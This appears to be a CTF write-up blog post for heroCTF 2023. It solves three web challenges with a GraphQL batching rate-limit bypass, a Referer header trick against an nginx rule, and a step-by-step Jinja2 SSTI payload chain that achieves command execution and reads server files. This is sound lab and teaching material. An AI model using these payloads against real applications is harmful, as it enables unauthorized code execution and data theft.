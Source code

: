 ```yaml
---
layout: mypost
title: heroCTF 2023
categories: [web, ctf]
---
```


## Introduction

Another CTF, this time featuring a trivial chall solved with a complicated unintended solution.

## Best Schools

We can add to a school's number of clicks by pressing the respective button.

![](images/heroCTF23/bestschools2.PNG)

To obtain the flag, we need the flag school to have the most clicks out of any other school. The highest number of clicks on the leaderboard is 1337, so we will need to attain 1338 clicks on the flag school to retrieve the flag.

![](images/heroCTF23/bestschools3.PNG)

However, we are rate limited in how fast we can press the button, so we can't brute force with 1338 click requests.

![](images/heroCTF23/bestschools4.PNG)

The objective seems to be to find a rate limit bypass. We'll begin by examining the request sent by clicking the button.

![](images/heroCTF23/bestschools5.PNG)

The application appears to use GraphQL as its query language. A known trick to bypass rate limits is to send a large batch of queries in a single request if supported by the query language. Looking for an application of GraphQL batching, we find [an article](https://checkmarx.com/blog/didnt-notice-your-rate-limiting-graphql-batching-attack/) with a format for GraphQL batching queries.

![](images/heroCTF23/bestschools7.PNG)

From this, we can see that GraphQL batching is allowed by the server. To solve the challenge, we just increase our number of batched requests:

![](images/heroCTF23/bestschools10.PNG)

Then, we click the flag button once more:

![](images/heroCTF23/bestschools11.PNG)

## Referrrrer

This challenge greets us with the following screen.

![](images/heroCTF23/referer1.PNG)

Examining the source, we find the following:

```js
app.get("/admin", (req, res) => {
    if (req.header("referer") === "YOU_SHOUD_NOT_PASS!") {
        return res.send(process.env.FLAG);
    }

    res.send("Wrong header!");
})
```

```
server {
    listen 80;
    server_name example.com;

    location / {
        proxy_pass http://express_app;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
    }

    location /admin {
        if ($http_referer !~* "^https://admin\.internal\.com") {
            return 403;
        }

        proxy_pass http://express_app;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
    }
}
```

To retrieve the flag, we must set our the `referer` header to "YOU_SHOUD_NOT_PASS!", as specified by the code for the `/admin` endpoint. However, the nginx config specifies that `referer` must also match the `^https://admin\.internal\.com` regex if the server is to not respond with a 403. How can we have two values for referer?  

In fact, I vaguely remember reading a twitter post retweeted by LiveOverflow about a month ago on strange behaviour with the `referer` header.

![](images/heroCTF23/referer2.PNG)

The trick is that `refer*rer` is taken as equivalent to `referer` in express.

![](images/heroCTF23/referer3.PNG)

## Drink From my Flask #1
We arrive at the following page.

![](images/heroCTF23/flask1.PNG)

![](images/heroCTF23/flask2.PNG)

Looking for other pages, we find that the URL is reflected in the page.

![](images/heroCTF23/flask3.PNG)

As we have some user-controlled input that is reflected in the page, we test for SSTI as the title of the challenge implies Flask is being used.

![](images/heroCTF23/flask4.PNG)

SSTI must be possible then. We will test a more significant jinja2 SSTI payload.
![](images/heroCTF23/flask5.PNG)

This is meant to be the shortest possible SSTI payload for jinja2.

> With objectwalker we can find a path to the os module from lipsum. This is the shortest payload known to achieve RCE in a Jinja2 template.

(from PayloadsAllTheThings)

We will take a detour and look at `/adminPage`.

![](images/heroCTF23/flask8.PNG)

How is the server role determining our role. In fact, we can see that it's getting our role from a JWT cookie sent to our browser.

![](images/heroCTF23/flask7.PNG)

Likely, that endpoint would also susceptible to SSTI if we could edit the JWT, but we don't know the key to sign one for ourselves. Hence, we conclude that we must keep trying on the 404 endpoint.

Doing more testing, we find that the url path has a limit of 35 characters. furthermore, we find that each url parameter a limit of 35 characters as well.

![](images/heroCTF23/flask9.PNG)

The challenge is to find the flag on the server using only SSTI payloads less than 35 characters in length. What if we leveraged Flask config variables to try and shorten our payload? We have access to the config as a global variable in jinja2 templates, so we could try to extend our payload by storing parts of it in the config variable.

![](images/heroCTF23/flask6.PNG)

Our payload to shorten is `lipsum.__globals__["os"].popen('id').read()`. We have to use 5 charcters for `/`, so we really only have 30 characters in our url path. After some testing, we arrive at the following chain.

```{% raw %}/{{config.update(u=config.update)}} {% endraw %}```

```{% raw %}/{{config.u(g="__globals__)}}{% endraw %}```

```{% raw %}/{{config.u(l=lipsum[config.g])}}{% endraw %}```

```{% raw %}/{{config.u(o=config.l['os'])}}{% endraw %}```

```{% raw %}/{{config.u(p=o.popen)}}{% endraw %}```

```{% raw %}/{{config.u(r=request.args)}}?b=cat+app.py&c=cat+flag.txt{% endraw %}```

```{% raw %}/{{config.p(config.r.b).read()}}{% endraw %}```

![](images/heroCTF23/flask12.PNG)

```{% raw %}/{{config.p(config.r.c).read()}}{% endraw %}```

![](images/heroCTF23/flask11.PNG)

The JWT key was 'key'. The solution was meant to be brute forcing the JWT...

![](images/heroCTF23/flask13.png)
